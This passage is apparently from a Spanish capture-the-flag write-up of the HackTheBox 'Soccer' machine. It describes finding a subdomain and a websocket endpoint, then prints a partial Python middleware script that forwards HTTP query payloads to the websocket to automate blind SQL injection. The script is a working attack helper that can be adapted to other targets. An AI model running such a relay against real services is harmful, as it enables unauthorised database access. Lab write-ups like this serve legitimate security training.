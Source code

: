 Así localizamos que soccer.htb tiene un subdominio y lo añadiremos a nuestro /etc/hosts. En esa página nos podemos registrar y al hacerlo nos dan un ticket y viendo el codigo de la pagina vemos que usa websocket. Buscando sobre "SQLi websocket" encontramos un blog (https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html) sobre como explotar esta vulnerabilidad.

Siguiendo los pasos del blog se nos quedará un codigo así, solo tendriamos que cambiar "ws_server = " y "data = data = '{"id":"%s"}' % message"

```python

from http.server import SimpleHTTPRequestHandler

from socketserver import TCPServer

from urllib.parse import unquote, urlparse

from websocket import create_connection

ws_server = "ws://soc-player.soccer.htb:9091/ws"

def send_ws(payload):

ws = create_connection(ws_server)

# If the server returns a response on connect, use below line

#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here

# For our case, format the payload in JSON

message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure

data = '{"id":"%s"}' % message

ws.send(data)

resp = ws.recv()

ws.close()

if resp:

return resp

else:

return ''

def middleware_server(host_port,content_type="text/plain"):

class CustomHandler(SimpleHTTPRequestHandler):

def do_GET(self) -> None:

self.send_response(200)

try:

payload = urlparse(self.path).query.split('=',1)[1]

except IndexError:

payload = False

```